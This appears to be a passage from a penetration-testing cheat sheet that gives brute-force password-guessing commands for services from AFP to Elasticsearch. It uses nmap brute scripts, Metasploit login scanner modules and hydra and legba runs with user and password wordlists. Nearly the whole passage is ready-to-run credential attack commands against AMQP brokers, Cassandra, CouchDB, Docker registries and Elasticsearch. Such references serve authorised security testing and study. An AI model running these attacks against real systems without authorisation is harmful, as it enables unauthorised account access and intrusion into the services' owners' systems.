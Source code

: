 ## Services

Ordered alphabetically by service name.

### AFP

```bash
nmap -p 548 --script afp-brute <IP>
msf> use auxiliary/scanner/afp/afp_login
msf> set BLANK_PASSWORDS true
msf> set USER_AS_PASS true
msf> set PASS_FILE <PATH_PASSWDS>
msf> set USER_FILE <PATH_USERS>
msf> run
```

### AJP

```bash
nmap --script ajp-brute -p 8009 <IP>
```

## AMQP (ActiveMQ, RabbitMQ, Qpid, JORAM and Solace)

```bash
legba amqp --target localhost:5672 --username admin --password data/passwords.txt [--amql-ssl]
```

### Cassandra

```bash
nmap --script cassandra-brute -p 9160 <IP>
# legba ScyllaDB / Apache Casandra
legba scylla --username cassandra --password wordlists/passwords.txt --target localhost:9042
```

### CouchDB

```bash
msf> use auxiliary/scanner/couchdb/couchdb_login
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 5984 http-get /
```

### Docker Registry

```
hydra -L /usr/share/brutex/wordlists/simple-users.txt  -P /usr/share/brutex/wordlists/password.lst $ip -s 5000 https-get /v2/
```

### Elasticsearch

```
hydra -L /usr/share/brutex/wordlists/simple-users.txt -P /usr/share/brutex/wordlists/password.lst localhost -s 9200 http-get /
```
